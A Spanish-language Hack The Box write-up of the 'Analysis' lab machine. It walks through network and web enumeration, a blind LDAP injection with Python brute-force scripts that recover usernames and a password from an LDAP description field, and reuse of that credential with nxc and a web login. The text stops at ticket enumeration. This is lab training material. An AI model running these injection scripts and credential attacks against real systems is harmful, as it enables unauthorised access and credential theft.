



+++
author = "Andrés Del Cerro"
title = "Hack The Box: Analysis Writeup | Hard"
date = "2024-08-12"
description = ""
tags = [
    "HackTheBox",
    "Analysis",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "DNS Bruteforce",
    "Enumerating HTTP",
    "LDAP Injection",
    "Python Scripting",
    "Scripting",
    "Information Leakage",
    "Credentials Reuse",
    "Web Shell",
    "Autologon Credentials",
    "Enumerating Snort Service",
    "Abusing dynamicpreprocessor",
    "Creating Malicious DLL",
    "Privilege Escalation"
]

+++

# Hack The Box: Analysis Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Analysis"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.230.179 --ulimit 5000 -g
10.129.230.179 -> [53,80,88,135,139,389,445,464,593,3306,5985,9389,33060,47001,49666,49664,49667,49665,49671,49678,49679,49682,49691,49704,49717,49719]
```

```shell
$ nmap -p53,80,88,135,139,389,445,464,593,3306,5985,9389,33060,47001,49666,49664,49667,49665,49671,49678,49679,49682,49691,49704,49717,49719 -sCV 10.129.230.179 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 19:29 CEST
Nmap scan report for 10.129.230.179
Host is up (0.042s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-12 15:30:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3306/tcp  open  mysql         MySQL (unauthorized)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
49719/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=8/12%Time=66BA467F%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0
SF:\0\0\x0b\x08\x05\x1a\0")%r(HTTPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0"
SF:)%r(RTSPRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\
SF:0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B,"\x05\0\0\0\x0b\x08\x0
SF:5\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05H
SF:Y000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SSLSessionReq,2B,"\x0
SF:5\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid
SF:\x20message\"\x05HY000")%r(TerminalServerCookie,9,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x
SF:01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(Kerberos,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,"\x05\0\0\0\x0b\x08\x05
SF:\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\
SF:x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(FourOhFourRequest
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9,"\x05\0\0\0\x0b\x08\x0
SF:5\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x0
SF:1\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(LDAPBindReq
SF:,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01\x08\x01\x10\x88'\x1a\*Pa
SF:rse\x20error\x20unserializing\x20protobuf\x20message\"\x05HY000")%r(SIP
SF:Options,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0
SF:b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(
SF:NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\
SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invalid\x20message-frame\.\"\x0
SF:5HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(giop,9,"\x05\0\
SF:0\0\x0b\x08\x05\x1a\0");
Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-12T15:30:55
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -1h59m30s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.94 second
```
# UDP Enumeration

```shell
$ sudo nmap --top-ports 1500 10.129.230.179 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 19:36 CEST
Nmap scan report for 10.129.230.179
Host is up (0.042s latency).
Not shown: 1497 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
88/udp    open   kerberos-sec
123/udp   open   ntp
18985/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```

Añadimos el dominio `analysis.htb` al `/etc/hosts`

Vemos los típicos puertos abiertos en un DC, LDAP, RPC, SMB... Pero a parte vemos el puerto 3306/TCP correspondiente a MySQL, para tenerlo en cuenta.

# Enumerating SMB

```shell
$ smbclient -L \\10.129.230.179 -U -N 
Password for [WORKGROUP\-N]:
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/analysis/scan]
└──╼ [★]$ smbclient -L \\10.129.230.179 -U '' -N 

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.230.179 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Por ahora no podemos hacer enumerar mediante SMB sin credenciales válidas.

# RPC Enumeration

```shell
$ rpcclient -U "" 10.129.230.179 -N
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomgroups
result was NT_STATUS_ACCESS_DENIED
```

Lo mismo mediante RPC.

# DNS Enumeration
Siempre que me enfrento contra un servidor DNS, me gusta enumerar subdominios realizando un ataque de fuerza bruta con `dnsenum`

Descubrimos el NS `dc-analysis.analysis.htb` y un dominio adicional `internal.analysis.htb`.

```shell
$ dnsenum -f /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --dnsserver 10.129.230.179 analysis.htb
dnsenum VERSION:1.2.6

-----   analysis.htb   -----


Host's addresses:
__________________

analysis.htb.                            600      IN    A        10.129.230.179


Name Servers:
______________

dc-analysis.analysis.htb.                3600     IN    A        10.129.230.179


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: dc-analysis.analysis.htb at /usr/bin/dnsenum line 900.

Trying Zone Transfer for analysis.htb on dc-analysis.analysis.htb ... 
AXFR record query failed: no nameservers


Brute forcing with /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt:
__________________________________________________________________________________

www.analysis.htb.                        3600     IN    A        192.168.1.100
internal.analysis.htb.                   3600     IN    A        192.168.1.100
gc._msdcs.analysis.htb.                  600      IN    A        10.129.230.179
```

Alternativamente también podríamos haber descubierto el NS con `dig`

```shell
$ dig NS analysis.htb @10.129.230.179

; <<>> DiG 9.18.24-1-Debian <<>> NS analysis.htb @10.129.230.179
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 44364
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;analysis.htb.			IN	NS

;; ANSWER SECTION:
analysis.htb.		3600	IN	NS	dc-analysis.analysis.htb.

;; ADDITIONAL SECTION:
dc-analysis.analysis.htb. 3600	IN	A	10.129.230.179

;; Query time: 36 msec
;; SERVER: 10.129.230.179#53(10.129.230.179) (UDP)
;; WHEN: Mon Aug 12 19:48:19 CEST 2024
;; MSG SIZE  rcvd: 83
```
# LDAP Enumeration

```shell
$ ldapsearch -x -H ldap://10.129.230.179 -D '' -w '' -b "DC=internal,DC=analysis,DC=htb"
# extended LDIF
#
# LDAPv3
# base <DC=internal,DC=analysis,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090CF4, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```

Por LDAP sin credenciales tampoco conseguimos nada.

# HTTP Enumeration

```shell
$ whatweb http://analysis.htb
http://analysis.htb [200 OK] Country[RESERVED][ZZ], Email[mail@demolink.org,privacy@demolink.org], HTTPServer[Microsoft-IIS/10.0], IP[10.129.230.179], JQuery, Microsoft-IIS[10.0], Script[text/javascript]
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/analysis/scan]
└──╼ [★]$ whatweb http://internal.analysis.htb
http://internal.analysis.htb [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.230.179], Microsoft-IIS[10.0], Title[403 - Interdit�: acc�s refus�.]
```

Vemos que `internal.analysis.htb` y `analysis.htb` devuelven información distinta por lo cual podemos deducir que se está aplicando virtual hosting por detrás.

## Enumerating `analysis.htb`

Esta es la pinta del sitio web.


Detectamos un nombre de usuario.


También encontramos un archivo PHP que se le manda varia data por POST.


Si intentamos mandar una solicitud POST con la data que vemos en el script JS, vemos lo siguiente.

Un error 500 pero en francés. Esto hay que tenerlo en cuenta ya que cuentas de sistema como la cuenta de Administrador, puede que se llame `Administrateur`

```shell
$ curl -X POST http://analysis.htb/bat/MailHandler.php --data "name=holaholahola&state=holahgolaholah&phone=7227272722&fax=722727272&message=hjolhoalhaoh"
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1"/>
<title>500 - Erreur interne au serveur.</title>
<style type="text/css">
<!--
body{margin:0;font-size:.7em;font-family:Verdana, Arial, Helvetica, sans-serif;background:#EEEEEE;}
fieldset{padding:0 15px 10px 15px;} 
h1{font-size:2.4em;margin:0;color:#FFF;}
h2{font-size:1.7em;margin:0;color:#CC0000;} 
h3{font-size:1.2em;margin:10px 0 0 0;color:#000000;} 
#header{width:96%;margin:0 0 0 0;padding:6px 2% 6px 2%;font-family:"trebuchet MS", Verdana, sans-serif;color:#FFF;
background-color:#555555;}
#content{margin:0 0 0 2%;position:relative;}
.content-container{background:#FFF;width:96%;margin-top:8px;padding:10px;position:relative;}
-->
</style>
</head>
<body>
<div id="header"><h1>Erreur de serveur</h1></div>
<div id="content">
 <div class="content-container"><fieldset>
  <h2>500 - Erreur interne au serveur.</h2>
  <h3>La ressource que vous recherchez pr�sente un probl�me, elle ne peut donc pas �tre affich�e.</h3>
 </fieldset></div>
</div>
</body>
</html>
```

No encuentro nada relevante sobre este archivo.

## Enumerating `internal.analysis.htb`

Con `feroxbuster` podemos encontrar varias rutas que puede que nos interese.

```shell
301      GET        2l       10w      170c http://internal.analysis.htb/users => http://internal.analysis.htb/users/
301      GET        2l       10w      174c http://internal.analysis.htb/dashboard => http://internal.analysis.htb/dashboard/
301      GET        2l       10w      170c http://internal.analysis.htb/Users => http://internal.analysis.htb/Users/
301      GET        2l       10w      174c http://internal.analysis.htb/employees => http://internal.analysis.htb/employees/
301      GET        2l       10w      174c http://internal.analysis.htb/Dashboard => http://internal.analysis.htb/Dashboard/
```

Después de fuzzear un rato, encontramos algunos recursos interesantes bajo `/dashboard`.


Y encontramos algo que me llama mucho la atención en `/users`


Me pide un parámetro.


Esto nos viene perfectos ya que como kerberos está abierto, quizás podemos listar usuarios y pensar en algún vector de ataque.

Solo falta descubrir cual es el parámetro que necesita, así que con `wfuzz` vamos a fuzzear los parámetros.
```shell
$ wfuzz --hh=17 -c -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://internal.analysis.htb/users/list.php?FUZZ=loquesea'
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://internal.analysis.htb/users/list.php?FUZZ=loquesea
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload                  
=====================================================================

000003598:   200        0 L      11 W       406 Ch      "name"
```

Y encontramos el parámetro `name`


Ahora bien, debo de saber que nombres de usuario hay que introducir para ver su información así que estamos en las mismas.

Pero por detrás se debe de estar haciendo alguna consulta a una base de datos.

## LDAP Injection
Tras probar varios payloads para una SQLi, probé el asterisco `*` y me devolvió un usuario. Esto es un indicio de que por detrás se están haciendo consultas por LDAP.


Vamos a scriptear esto con python para descubrir usuarios.

Esta es la primera versión del script para buscar usuarios.

```python
#!/usr/bin/python3
import requests
import string
import html2text
import os
import re
import signal
from pwn import *
from itertools import product

base_url = "http://internal.analysis.htb/users/list.php"

charset = string.ascii_lowercase  # a-z

h2t = html2text.HTML2Text()
h2t.ignore_linkgs = True

user_regex = re.compile(r'<strong>(.*?)</strong>')

users = []

def def_handler(x,y):
    log.info("Saliendo..")
    log.info(f"Usuarios recuperados {len(users)}")
    for user in users:
        print(user)
    exit(1)

signal.signal(signal.SIGINT,def_handler)

def check_user(prefix):
    url = f"{base_url}?name={prefix}*"
    response = requests.get(url)

    if "CONTACT_" not in response.text:
        name = user_regex.search(response.text).group(1)
        print(f"Found user with prefix '{prefix}': | user -> {name}")
        print(h2t.handle(response.text))
        users.append(name)
        return True
    return False

def enumerate_users():
    p = log.progress("Probando")
    for length in range(1, 9):
        for prefix in product(charset, repeat=length):
            prefix_str = ''.join(prefix)
            p.status(prefix_str)
            check_user(prefix_str)

if __name__ == "__main__":
    log.info("Iniciando fuerza bruta")
    enumerate_users()
```

Después de esperar un rato recuperamos algunos usuarios.


```shell
Found user with prefix 'te': | user -> technician
## Search result  
  
Username| Last Name| First Name| Company| Department| Office Phone| Fax|
Mobile| DDI| E-Mail Address| Home Phone  
---|---|---|---|---|---|---|---|---|---|---  
**technician**| |  technician| | | | | | | | 


[*] Saliendo..
[*] Usuarios recuperados 10
amanson
badam
jangel
lzen
technician
amanson
badam
jangel
lzen
technician
```

Quitando los duplicados.

```shell
$ sort users.dup.txt | uniq > users.txt
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/analysis/content]
└──╼ [★]$ cat users.txt
amanson
badam
jangel
lzen
pleazkin
technician
```

Podemos confirmar que estos usuarios son válidos a nivel de sistema con `kerbrute`

```shell
$ /opt/kerbrute userenum --dc 10.129.230.179 -d analysis.htb  users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/12/24 - Ronnie Flathers @ropnop

2024/08/12 20:39:37 >  Using KDC(s):
2024/08/12 20:39:37 >  	10.129.230.179:88

2024/08/12 20:39:37 >  [+] VALID USERNAME:	 amanson@analysis.htb
2024/08/12 20:39:37 >  [+] VALID USERNAME:	 badam@analysis.htb
2024/08/12 20:39:37 >  [+] VALID USERNAME:	 lzen@analysis.htb
2024/08/12 20:39:37 >  [+] VALID USERNAME:	 jangel@analysis.htb
2024/08/12 20:39:37 >  [+] VALID USERNAME:	 technician@analysis.htb
2024/08/12 20:39:37 >  Done! Tested 6 usernames (5 valid) in 0.043 seconds
```

Podemos probar a solicitar un ticket TGT pero esto no sirve..

```shell
$ impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User amanson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User badam doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jangel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lzen doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User technician doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Por lo cual, podemos intentar recuperar el campo `description` que existe por defecto para ver si contiene algo para cada usuario.

Primero debemos fabricar nuestro payload.

Después de un rato probando (no tengo mucha experiencia en inyecciones LDAP), encontramos lo siguiente.

Este payload me devuelve algo: 
`*)(description=*`


Pero este otro payload no `*)(description=A`


Esto significa que tenemos una inyección a ciegas, y podemos filtrar la descripción de cada usuario.

Falta scriptearlo. Si esto no funciona, podemos modificar el script para descubrir campos que quizás nos interesen.

Primero me interesa saber que usuarios tienen una descripción.

```python
#!/usr/bin/python3
import requests
from pwn import *
import string

URL = "http://internal.analysis.htb/users/list.php?name=<USER>)(description=<DESC>"
DEFAULT_LEN = 406
alphabet = string.ascii_letters + string.digits + "_@{}-/!\"$%=^[]:;"

def brute(user):
    forged_url = URL.replace("<USER>", user)
    p = log.progress("Probando carácter ->")
    for char in alphabet:
        p.status(char)
        r = requests.get(forged_url.replace("<DESC>", char + "*"))
        if (len(r.text) != DEFAULT_LEN):
            p.success("El usuario %s tiene descripción" % user)
    

def desc():
    with open('users.txt', 'r', encoding="utf-8") as file:
        p = log.progress("Usuario ->")
        for user in file:
            username = user.strip()
            p.status(username)
            brute(username)
            
            

if __name__ == "__main__":
    desc()
```

Vemos que el usuario `technician` es el único que tiene descripción.
```shell
$ python3 description.py 
[↓] Usuario ->: technician
[ ] Probando carácter ->: ;
[.\......] Probando carácter ->: ;
[0] Probando carácter ->: ;
[◣] Probando carácter ->: ;
[◑] Probando carácter ->: ;
[+] Probando carácter ->: El usuario technician tiene descripción
```

Ahora este es el script para bruteforcear la descripción.

```python
#!/usr/bin/python3
import requests
from pwn import *
import string

URL = "http://internal.analysis.htb/users/list.php?name=<USER>)(description=<DESC>"
DEFAULT_LEN = 406
alphabet = string.ascii_letters + string.digits + "_@{}-/!\"$%=^[]:;"

def brute(user, known_prefix=""):
    forged_url = URL.replace("<USER>", user)
    description = known_prefix

    p = log.progress("Probando carácter ->")
    while True:
        found_char = False

        for char in alphabet:
            p.status(description+char)
            r = requests.get(forged_url.replace("<DESC>", description + char + "*"))
            if len(r.text) != DEFAULT_LEN:
                description += char
                found_char = True
                break  # Salir del bucle interno

        if not found_char:
            p.success(f"Descripción final descubierta: {description}")
            break  # Salir del bucle externo

def desc():
    p = log.progress("Usuario ->")
    username = "technician"
    p.status(username)
    brute(username)

if __name__ == "__main__":
    desc()
```

Si lo dejamos un rato..

```shell
$ python3 description.py 
[▃] Usuario ->: technician
[+] Probando carácter ->: Descripción final descubierta: 97NTtl
```

Pero esta credencial es inválida.
```shell
$ nxc smb 10.129.230.179 -u technician -p 97NTtl
SMB         10.129.230.179  445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.179  445    DC-ANALYSIS      [-] analysis.htb\technician:97NTtl STATUS_LOGON_FAILURE
```

He omitido los caracteres `(` `)` y `*` porque rompían la inyección, por lo cual supongo que la credencial contiene alguno de estos caracteres.


Añado el carácter `*`. El problema es que puede dar falsos positivos, si esto es así, bruteforcearé luego con `netexec` los posibles campos que falten.

```shell
$ python3 description.py 
[d] Usuario ->: technician
[↗] Probando carácter ->: 97NTtl*4QP96Bv**aaaaaaaaaaa
```

La `a` surge ya que la consulta por LDAP se rompe al introducir doble `*`. Por lo cual podemos probar como credencial `97NTtl*4QP96Bv` 

¡Y es válida!
```shell
$ nxc smb 10.129.230.179 -u technician -p '97NTtl*4QP96Bv'
SMB         10.129.230.179  445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.179  445    DC-ANALYSIS      [+] analysis.htb\technician:97NTtl*4QP96Bv
```

Este usuario no está en el grupo de `Remote Management Users` por lo cual no podemos conseguir una consola interactiva utilizando herramientas como `evil-winrm`
```shell
$ nxc winrm 10.129.230.179 -u technician -p '97NTtl*4QP96Bv'
WINRM       10.129.230.179  5985   DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
WINRM       10.129.230.179  5985   DC-ANALYSIS      [-] analysis.htb\technician:97NTtl*4QP96Bv
```

Por SMB tampoco vemos ningún recurso compartido a nivel de red interesante.
```shell
$ nxc smb 10.129.230.179 -u technician -p '97NTtl*4QP96Bv' --shares
SMB         10.129.230.179  445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.179  445    DC-ANALYSIS      [+] analysis.htb\technician:97NTtl*4QP96Bv
SMB         10.129.230.179  445    DC-ANALYSIS      [*] Enumerated shares
SMB         10.129.230.179  445    DC-ANALYSIS      Share           Permissions     Remark
SMB         10.129.230.179  445    DC-ANALYSIS      -----           -----------     ------
SMB         10.129.230.179  445    DC-ANALYSIS      ADMIN$                          Administration à distance
SMB         10.129.230.179  445    DC-ANALYSIS      C$                              Partage par défaut
SMB         10.129.230.179  445    DC-ANALYSIS      IPC$            READ            IPC distant
SMB         10.129.230.179  445    DC-ANALYSIS      NETLOGON        READ            Partage de serveur d'accès
SMB         10.129.230.179  445    DC-ANALYSIS      SYSVOL          READ            Partage de serveur d'accès
```

Pero tenemos unas credenciales.

## Enumerating HTTP (again)
Al no ver nada interesante con estas credenciales, podemos seguir enumerando `internal.analysis.htb` ya que antes enumeré mas profundamente los recursos `/users` y `/dashboard` pero me falta `/employees`

```shell
$ feroxbuster -u http://internal.analysis.htb/employees/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100 -x php,asp,aspx
```

Y encontramos un recurso `login.php`

```shell
200      GET       30l       60w     1085c http://internal.analysis.htb/employees/login.php
```


Pide el email para iniciar sesión
Probando `technician@analysis.htb:97NTtl*4QP96Bv` podemos iniciar sesión.


Vemos una sección `Messages` donde algunos usuarios se están quejando de que el servidor va lento, puede ser por el fuzzeo que hemos realizado. Me gusta el realismo que han aplicado en esta máquina.


Vemos algunos To Dos, por lo que veo existe algún sistema de tickets detrás, y el recordatorio mas importante de aquí es que se están quejando de que no tienen café en las oficinas.


Podemos ver tickets.


Los mas relevantes este que menciona problemas con un ticket TGT.


